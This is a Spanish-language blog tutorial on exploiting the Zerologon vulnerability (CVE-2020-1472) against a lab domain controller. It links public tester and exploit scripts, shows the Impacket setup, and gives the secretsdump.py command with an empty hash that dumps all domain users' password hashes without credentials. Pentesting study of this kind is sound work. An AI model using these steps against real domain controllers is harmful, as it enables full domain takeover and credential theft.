 ```yaml
---
layout: single
title: Cómo explotar la vulnerabilidad Zerologon
excerpt: "Mucho se está hablando acerca de la nueva vulnerabilidad Zerologon, pero... ¿realmente es crítica?. Lo analizaremos en detalle en este artículo."
date: 2022-02-16
classes: wide
header:
  teaser: /assets/images/zerologon/zerologon.png
  teaser_home_page: true
categories:
  - Research
  - Utilidades
  - Exploits
  - Vulnerabilidades
tags:
  - Pentesting
  - Herramientas
  - Windows
  - Linux
  - Domain Controller
  - Guías
  - Privilege Escalation
---
```


![](/assets/images/zerologon/zerologon.png)

## ¿Es realmente crítico Zerologon?

La respuesta es un **si** rotundo. No creo que haga falta a estas alturas comentar qué es Zerologon... ya existen montón de artículos a disposición detallando de forma técnica y ejecutiva en qué consiste la vulnerabilidad.

Centrémonos en la explotación, ¿cómo se explota zerologon?, vamos a ello. En mi caso comenzaré haciendo uso de la siguiente utilidad:

* [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Este recurso, nos permitirá a través del script `zerologon_tester.py`, saber si el DC en cuestión es vulnerable ante el ataque. Yo ya dispongo de un DC virtualizado contra el que lanzar el tester, en caso de no contar con uno, te recomiendo hacer uso de la utilidad '**AD-AutomationLab**', una herramienta en PowerShell que desarrollé para el despliegue automatizado de un Domain Controller entre otras cosas (también es capaz de configurar vulnerabilidades reconocidas sobre el servidor).

Por aquí os dejo el enlace para aquellos/as que lo quieran usar:

* [https://github.com/s4vitar/AD-AutomationLab](https://github.com/s4vitar/AD-AutomationLab)


## ¿Cómo se explota la vulnerabilidad Zerologon?

Una vez tengamos ya el Domain Controller operando, podremos empezar. La dirección IP de mi DC en este caso es la `192.168.101.130`, y la dirección IP de mi equipo atacante la `192.168.101.128`.

Partiendo de este punto, estos son los resultados obtenidos al lanzar el tester sobre el DC:

<p align="center">
<img src="/assets/images/zerologon/1.png">
</p>

Toda la información referente al nombre de equipo, dominio y demás puede obtenerse rápidamente desde CrackMapExec con un simple escaneo por Samba:

<p align="center">
<img src="/assets/images/zerologon/2.png">
</p>

En base a los resultados de la primera foto, vemos que el DC es vulnerable. Lo único que nos queda por tanto es explotar la vulnerabilidad.

En esta ocasión, estaré usando el siguiente recurso de la plataforma de GitHub:

* [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Esta utilidad cuenta con un script de nombre `cve-2020-1472-exploit.py`, el cual como información nos solicita el nombre del equipo y la dirección IP de la máquina víctima.

Antes de explotar la vulnerabilidad, para evitar problemas con Impacket, recomiendo tirar de `virtualenv` para tras su instalación ejecutar posteriormente la herramienta. Sería seguir básicamente los siguientes pasos:

```bash
┌─[root@parrot]─[/home/mrx/Desktop]
└──╼ #virtualenv zerologon
created virtual environment CPython3.8.2.final.0-64 in 178ms
  creator CPython3Posix(dest=/home/mrx/Desktop/zerologon, clear=False, global=False)
  seeder FromAppData(download=False, CacheControl=latest, appdirs=latest, certifi=latest, chardet=latest, colorama=latest, contextlib2=latest, distlib=latest, distro=latest, html5lib=latest, idna=latest, ipaddr=latest, lockfile=latest, msgpack=latest, packaging=latest, pep517=latest, pip=latest, pkg_resources=latest, progress=latest, pyparsing=latest, pytoml=latest, requests=latest, retrying=latest, setuptools=latest, six=latest, urllib3=latest, webencodings=latest, wheel=latest, via=copy, app_data_dir=/root/.local/share/virtualenv/seed-app-data/v1.0.1.debian)
  activators BashActivator,CShellActivator,FishActivator,PowerShellActivator,PythonActivator,XonshActivator
┌─[root@parrot]─[/home/mrx/Desktop]
└──╼ #source zerologon/bin/activate
(zerologon) ┌─[root@parrot]─[/home/mrx/Desktop]
└──╼ #cd /opt/
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #git clone https://github.com/SecureAuthCorp/impacket
Clonando en 'impacket'...
remote: Enumerating objects: 39, done.
remote: Counting objects: 100% (39/39), done.
remote: Compressing objects: 100% (26/26), done.
remote: Total 18517 (delta 19), reused 26 (delta 13), pack-reused 18478
Recibiendo objetos: 100% (18517/18517), 6.17 MiB | 5.96 MiB/s, listo.
Resolviendo deltas: 100% (14103/14103), listo.
(zerologon) ┌─[root@parrot]─[/opt]
└──╼ #cd impacket/
(zerologon) ┌─[root@parrot]─[/opt/impacket]
└──╼ #python3 setup.py install

...

```

Una vez hecho, la ejecución del exploit debe devolver un output como este en caso de éxito:

<p align="center">
<img src="/assets/images/zerologon/3.png">
</p>

Si esto es así, ya todo lo demás está hecho. Lo único que tendríamos que hacer, tal y como nos indica el README del siguiente recurso:

* [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

Sería ejecutar la siguiente sentencia:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'DOMAIN/DC_NETBIOS_NAME$@dc_ip_addr'
```

Para mi caso quedaría de la siguiente forma:

```bash
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 's4vicorp/DC-Company$@192.168.101.130'
```

Obteniendo los siguientes resultados tras su ejecución:

<p align="center">
<img src="/assets/images/zerologon/4.png">
</p>

Conseguimos listar los hashes de todos los usuarios existentes a nivel de dominio, incluido aquellos que sean administradores del dominio. Básicamente el mismo efecto que obtendríamos si desde CrackMapExec hubiéramos hecho uso de la acción `--ntds vss`, pero claro... en ese caso habríamos necesitado credenciales válidas, lo bueno del Zerologon es que no hace falta nada de eso :)
